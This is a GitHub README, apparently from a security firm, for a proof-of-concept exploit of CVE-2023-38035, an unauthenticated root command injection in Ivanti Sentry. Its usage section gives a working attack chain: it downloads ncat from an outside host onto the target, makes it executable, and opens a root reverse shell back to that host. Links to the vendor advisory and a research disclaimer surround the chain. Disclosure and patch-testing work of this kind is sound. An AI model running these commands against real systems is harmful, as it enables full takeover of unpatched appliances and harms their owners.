 # CVE-2023-38035
POC for CVE-2023-38035 affecting Ivanti Sentry

## Technical Analysis
A technical root cause analysis of the vulnerability can be found on our blog:
https://www.horizon3.ai/ivanti-sentry-authentication-bypass-cve-2023-38035-deep-dive

## Summary
This POC abuses an unauthenticated command injection to execute arbitrary commands as the root user.

The execution context does not allow for command piping, and the system does not ship with easily abusable binaries, so commands can be chained to download a static ncat from somewhere like https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat.

## Usage
```plaintext
python3 CVE-2023-38035.py -u https://<target>:8443/ -c 'wget http://123.123.123.123:8000/ncat -O /tmp/ncat'
[+] Successfully executed command on target!
python3 CVE-2023-38035.py -u https://<target>:8443/ -c 'chmod +x /tmp/ncat' 
[+] Successfully executed command on target!
python3 CVE-2023-38035.py -u https://<target>:8443/ -c 'sudo /tmp/ncat 123.123.123.123 4444 -e /bin/sh'
[+] Successfully executed command on target!
```

![Shell](shell.png)

## Mitigations
Update to the latest version according to the instructions within the Ivanti Advisory
* https://forums.ivanti.com/s/article/KB-API-Authentication-Bypass-on-Sentry-Administrator-Interface-CVE-2023-38035?language=en_US

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

